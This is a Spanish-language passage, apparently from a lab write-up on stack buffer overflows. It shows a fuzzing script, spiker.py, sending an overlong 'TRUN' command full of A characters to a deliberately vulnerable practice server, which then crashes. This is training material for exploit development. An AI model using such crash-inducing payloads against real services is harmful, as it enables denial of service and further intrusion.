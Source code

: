 Probemos:

```bash
python3 spiker.py --ip-addr 192.168.1.100 --port 9999 --length 5900

[+] Conectando a 192.168.1.100:9999...

[+] Recibiendo Banner: 
------
Welcome to Vulnerable Server! Enter HELP for help.

------

[*] Payload Enviado: b'TRUN /.:/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA...AAA\r\n'

[!] No hay respuesta, el servidor podría haber crasheado.

[+] Cerrando conexión.
```

Y podemos ver que se crashea:

<p align="center">
<img src="/assets/images/THL-writeup-pila/Captura18.png">
</p>
